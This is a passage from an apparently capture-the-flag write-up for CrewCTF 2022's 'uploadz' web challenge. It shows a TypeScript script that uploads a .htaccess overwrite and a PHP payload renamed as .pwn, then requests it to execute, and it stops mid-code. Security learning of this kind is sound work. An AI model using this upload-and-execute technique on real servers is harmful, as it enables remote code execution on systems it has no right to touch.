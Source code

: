 Then I wrote a script to perform the exploit, as the time interval of one second was too short to perform the exploit by hand (Also coding is more fun).

The plan was to

- Upload the .htaccess overwrite
- Upload the PHP payload as a .pwn file
- Execute the payload
- Retrieve the data from the payload

### index.ts

```ts
import axios from 'axios';
import FormData from 'form-data';
import fs from 'fs';

const baseUrl = 'https://uploadz-web.crewctf-2022.crewc.tf';
const tempPath = 'storage/app/temp';
const exploits = {
  htaccess: { path: 'pwn/.htaccess', name: '.htaccess' },
  payload: { path: 'pwn/main.pwn', name: 'main.pwn' },
};

// Upload .htaccess Overwrite
const overwriteConfigFile = async () => {
  const form = new FormData();

  const htaccess = fs.readFileSync(exploits.htaccess.path);
  form.append('uploadedFile', htaccess, exploits.htaccess.name);

  axios.post(baseUrl, form.getBuffer(), {
    headers: {
      ...{
        'User-Agent':
          'Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:15.0) Gecko/20100101 Firefox/15.0.1',
      },
      ...form.getHeaders(),
    },
  });
};

// Upload Payload
const uploadPayload = async () => {
  const form = new FormData();

  const exploit = fs.readFileSync(exploits.payload.path);
  form.append('uploadedFile', exploit, exploits.payload.name);

  axios.post(baseUrl, form.getBuffer(), {
    headers: {
      ...{
        'User-Agent':
          'Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:15.0) Gecko/20100101 Firefox/15.0.1',
      },
      ...form.getHeaders(),
    },
  });
};

// Execute Payload
const executePayload = async () => {
  const payloadResponse = await (
    await axios.get(`${baseUrl}/${tempPath}/${exploits.payload.name}`)
  ).data;
```